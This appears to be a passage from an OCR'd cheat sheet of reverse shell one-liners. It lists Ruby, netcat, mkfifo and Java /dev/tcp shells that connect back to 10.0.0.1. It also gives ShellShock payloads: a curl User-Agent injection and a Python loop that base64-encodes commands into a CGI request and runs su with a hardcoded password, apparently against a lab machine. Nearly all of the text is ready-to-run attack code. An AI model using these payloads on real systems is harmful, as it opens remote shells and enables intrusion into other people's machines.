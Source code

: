 <span id="anchor-78"></span>Ruby

|                                                                                                               |
| ------------------------------------------------------------------------------------------------------------- |
| ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to\_i;exec sprintf("/bin/sh -i \<&%d \>&%d 2\>&%d",f,f,f)' |

<span id="anchor-79"></span>Netcat

<span id="anchor-80"></span>Version 1

|                             |
| --------------------------- |
| nc -e /bin/sh 10.0.0.1 1234 |

<span id="anchor-81"></span>Version 2

|                                                                               |
| ----------------------------------------------------------------------------- |
| rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2\>&1|nc 10.0.0.1 1234 \>/tmp/f |

<span id="anchor-82"></span>Java

<table>
<tbody>
<tr class="odd">
<td>r = Runtime.getRuntime()<br />
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/10.0.0.1/2002;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])<br />
p.waitFor()</td>
</tr>
</tbody>
</table>

<span id="anchor-83"></span>ShellShock Reverse Shells

<span id="anchor-84"></span>Curl - One-Liner

|                                                                                                                           |
| ------------------------------------------------------------------------------------------------------------------------- |
| curl -A "() { :;}; echo 'Content-type: text/html'; echo; /bin/ls -al /home/bynarr;" http://192.168.56.101:591/cgi-bin/cat |

<span id="anchor-85"></span>Python Reverse Shell - ShellShock w/Sudo

<table>
<tbody>
<tr class="odd">
<td><p>import requests,sys</p>
<p>from base64 import b64encode</p>
<p>while True:</p>
<p>    user_command = b64encode(raw_input('$ ').strip())</p>
<p>    payload = b64encode("python -c 'import pty,subprocess,os,time;from base64 import b64decode;(master,slave)=pty.openpty();p=subprocess.Popen([\"/bin/su\",\"-c\",b64decode(\"%s\"),\"bynarr\"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,\"fruity\\n\");time.sleep(0.1);print os.read(master,1024);'"%user_command)</p>
<p>    headers = {</p>
<p>   'User-Agent': '() { :; }; echo \'Content-type: text/html\'; echo; export PATH=$PATH:/usr/bin:/bin:/sbin; echo \'%s\' | base64 -d | bash 2&gt;&amp;1' % payload</p>
<p>    }</p>
<p>    print requests.get('http://192.168.56.101:591/cgi-bin/cat', headers=headers).text.strip()</p></td>
</tr>
</tbody>
</table>
